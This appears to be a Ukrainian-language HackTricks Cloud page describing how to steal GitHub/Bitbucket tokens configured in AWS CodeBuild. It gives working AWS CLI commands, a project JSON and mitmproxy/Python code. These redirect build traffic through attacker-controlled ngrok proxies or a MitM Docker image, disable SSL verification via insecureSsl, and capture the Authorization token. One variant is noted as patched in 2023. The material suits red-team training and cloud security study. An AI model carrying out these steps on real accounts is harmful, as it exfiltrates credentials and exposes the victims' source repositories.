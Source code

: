 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Відновлення токенів, налаштованих у Github/Bitbucket

Спочатку перевірте, чи є налаштовані облікові дані джерела, які ви могли б витікати:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Якщо ви виявите, що автентифікація, наприклад, до Github налаштована в обліковому записі, ви можете **екстрактувати** цей **доступ** (**GH token або OAuth token**), змусивши Codebuild **використовувати конкретний docker image** для виконання збірки проекту.

Для цього ви можете **створити новий проект Codebuild** або змінити **середовище** існуючого, щоб налаштувати **Docker image**.

Docker image, який ви можете використовувати, це [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Це дуже базовий Docker image, який налаштує **змінні середовища `https_proxy`**, **`http_proxy`** та **`SSL_CERT_FILE`**. Це дозволить вам перехопити більшість трафіку хоста, вказаного в **`https_proxy`** та **`http_proxy`**, і довіряти SSL CERT, вказаному в **`SSL_CERT_FILE`**.

1. **Створіть та завантажте свій власний Docker MitM image**
* Слідуйте інструкціям репозиторію, щоб налаштувати IP-адресу проксі та налаштувати свій SSL сертифікат і **збудуйте docker image**.
* **НЕ НАЛАШТОВУЙТЕ `http_proxy`**, щоб не перехоплювати запити до кінцевої точки метаданих.
* Ви можете використовувати **`ngrok`** як `ngrok tcp 4444`, щоб налаштувати проксі на вашому хості.
* Після того, як ви збудували Docker image, **завантажте його до публічного репозиторію** (Dockerhub, ECR...)
2. **Налаштуйте середовище**
* Створіть **новий проект Codebuild** або **змініть** середовище існуючого.
* Налаштуйте проект на використання **раніше згенерованого Docker image**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Налаштуйте MitM проксі на вашому хості**

* Як вказано в **Github репозиторії**, ви можете використовувати щось на зразок:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Версія **mitmproxy, що використовувалася, була 9.0.1**, повідомлялося, що з версією 10 це може не спрацювати.
{% endhint %}

4. **Запустіть збірку та захопіть облікові дані**

*   Ви можете побачити токен у заголовку **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Це також можна зробити з aws cli з чимось на кшталт

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Через insecureSSL

**Codebuild** проекти мають налаштування під назвою **`insecureSsl`**, яке приховане в вебі, і ви можете змінити його лише через API.\
Увімкнення цього дозволяє Codebuild підключатися до репозиторію **без перевірки сертифіката**, запропонованого платформою.

* Спочатку вам потрібно перерахувати поточну конфігурацію за допомогою чогось на кшталт:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Потім, зібравши інформацію, ви можете оновити налаштування проекту **`insecureSsl`** на **`True`**. Наступний приклад показує, як я оновлюю проект, зверніть увагу на **`insecureSsl=True`** в кінці (це єдине, що потрібно змінити в зібраній конфігурації).
* Крім того, додайте також змінні середовища **http\_proxy** та **https\_proxy**, які вказують на ваш tcp ngrok, як:

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http\_proxy та https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Нарешті, натисніть на **Build the project**, **облікові дані** будуть **надіслані у відкритому вигляді** (base64) на порт mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Цю вразливість виправили AWS на деякий момент тижня 20 лютого 2023 року (я думаю, в п'ятницю). Тож зловмисник більше не може її зловживати :)**
{% endhint %}

Зловмисник з **підвищеними правами в CodeBuild може витікати токен Github/Bitbucket**, налаштований або, якщо права були налаштовані через OAuth, **тимчасовий OAuth токен, використаний для доступу до коду**.

* Зловмисник міг би додати змінні середовища **http\_proxy** та **https\_proxy** до проекту CodeBuild, вказуючи на свою машину (наприклад, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Потім змініть URL репозиторію github, щоб використовувати HTTP замість HTTPS, наприклад: `http://github.com/carlospolop-forks/TestActions`
* Потім запустіть базовий приклад з [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) на порту, вказаному змінними проксі (http\_proxy та https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Нарешті, натисніть на **Build the project**, **облікові дані** будуть **надіслані у відкритому вигляді** (base64) на порт mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Тепер зловмисник зможе використовувати токен зі своєї машини, перерахувати всі привілеї, які він має, і (зловживати) легше, ніж безпосередньо використовуючи сервіс CodeBuild.
{% endhint %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
